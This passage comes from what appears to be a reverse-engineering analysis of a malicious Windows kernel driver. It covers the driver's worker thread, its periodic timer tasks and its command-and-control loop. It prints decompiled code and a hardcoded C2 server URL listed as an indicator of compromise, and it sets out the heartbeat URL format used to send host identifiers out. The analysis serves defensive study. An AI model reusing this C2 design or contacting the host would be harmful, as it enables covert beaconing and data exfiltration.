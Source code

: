 Once `SetupNetworkFilter` succeeds, the driver spins up `FilterWorkerThread`. This kernel-mode thread is the engine of its covert operations:

- **Execution Privileges and Environment:**
    
    ```c
    KeEnterCriticalRegion();
    KeSetBasePriorityThread(KeGetCurrentThread(), 5); // Priority 5 is relatively high for a driver thread.
    AttachThreadToFilterFramework(KeGetCurrentThread()); // Stores current thread in g_Qw_14000E210
    InitializeNetworkSubsystem(); // Initializes timer list (qword_140010650)
    ```
    
    - By entering a critical region and setting a higher base priority, the thread attempts to ensure its execution is less likely to be preempted or interrupted by less critical system activities.
- **Periodic Timers for C2 Communication and Tasks:**
    - The thread sets up several periodic tasks using `SchedulePeriodicTimerTask`, which adds entries to a list processed by `HandleDeferredTimerTasks` in the thread's main loop.
    
    ```c
    SchedulePeriodicTimerTask(CheckProxyConfigTimerCallback, 10);      // Related to registry checks/updates for proxy settings
    SchedulePeriodicTimerTask(UploadStatsTimerCallback, 60);   // For sending data
    SchedulePeriodicTimerTask(CleanupAndConfigFetchTimerCallback, 1800); // Calls FetchRemoteConfig_IfChanged to fetch config
    SchedulePeriodicTimerTask(ReconnectTimerCallback, 1800);  // Implies C2 connection maintenance
    SchedulePeriodicTimerTask(HeartbeatTimerCallback, 30);    // Core "I'm alive" beacon and data exchange
    ```
    
    - `SetC2ServerUrl("http://110.42.4.180:2080/u");`
        - This call hardcodes the C2 server URL into the global variable. This is a definitive IOC.
- **C2 Communication Loop:**
    - The thread waits for the network to be ready using `IsNetworkReady_PerformInitialC2Check()` This function itself performs an HTTP GET request via `PerformHttpGetRequest_AndStoreResponse` to the C2 server and checks the response, likely for an initial configuration or "go-ahead" signal.
    - Then, it enters its main loop:
        
        ```c
        while ( !g_TerminationRequested )
        {
          ProcessInboundPackets();  
          ProcessOutboundPackets(); 
          HandleDeferredWork(1i64); 
          SleepMilliseconds(1000i64);
        }
        ```
        
- **C2 Communication Details:**
    - **Outbound Beaconing/Data Exfiltration:** `HeartbeatTimerCallback` -> `PrepareHeartbeatDataAndTriggerC2` -> `SendHeartbeatAndReceiveFileFromC2`:
        - `HeartbeatTimerCallback` triggers `PrepareHeartbeatDataAndTriggerC2`. This function attempts to read a local file (path derived from the driver's own `ImagePath` via `GetDriverImagePath_Wdf` and `ReadFileContentToBuffer`
        - If the file read fails or is empty, a default identifier `"921fa8a5442e9bf3fe727e770cded4ab"` is used. Otherwise, an MD5-like hash (via `CalculateMD5HashOfString)` of the file's content is used.
        - This identifier/hash is passed to `SendHeartbeatAndReceiveFileFromC2`
        - `SendHeartbeatAndReceiveFileFromC2` then calls `ConstructC2HeartbeatUrl` to construct a GET request URL: `GLOBAL_C2_BASE_PATH + "v=" + DRIVER_VERSION_STRING + "&m=" + SYSTEM_IDENTIFIER`.
        - `PerformHttpGetRequest_ParseResponseToHash_AndSaveToFile` executes this HTTP GET request.
        